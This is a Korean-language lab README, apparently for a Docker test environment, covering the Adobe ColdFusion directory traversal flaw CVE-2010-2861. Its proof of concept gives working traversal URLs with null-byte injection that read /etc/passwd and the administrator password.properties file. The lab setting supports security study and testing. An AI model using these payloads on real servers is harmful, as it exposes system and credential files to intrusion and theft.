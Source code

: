 # Adobe ColdFusion 디렉토리 순회 취약점 (CVE-2010-2861)


Adobe ColdFusion은 1995년 J. J. 앨러이어(J. J. Allaire)가 만든 상용 신속 웹 애플리케이션 개발 컴퓨팅 플랫폼입니다

Adobe ColdFusion 9.0.1 이전 버전에는 디렉토리 순회 취약성이 있으며, 이를 통해 원격 공격자가 로케일 매개 변수를 통해 (1) CFIDE/administrator/설정/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2e packaging/editarchive.cfm 및 (5) Enter.cfm을 CFIDE/administrator/를 읽을 수 있습니다.

## 환경 설정

다음 명령을 실행하여 Adobe CouldFusion 8.0.1 서버를 시작합니다.

```
docker compose up -d
```

서버를 시작하는 데 1~5분 정도 걸릴 수 있습니다.그 후 방문.http://your-ip:8500/CFIDE/administrator/enter.cfm초기화 페이지를 보려면 암호를 입력합니다. admin서버 전체를 초기화합니다.

## POC

파일을 읽어오기 위해 /etc/passwd 경로로 http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en:

![](1.png)

다음을 통해 백그라운드 관리자 암호 읽기를 읽어옵니다.
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en:

![](2.png)
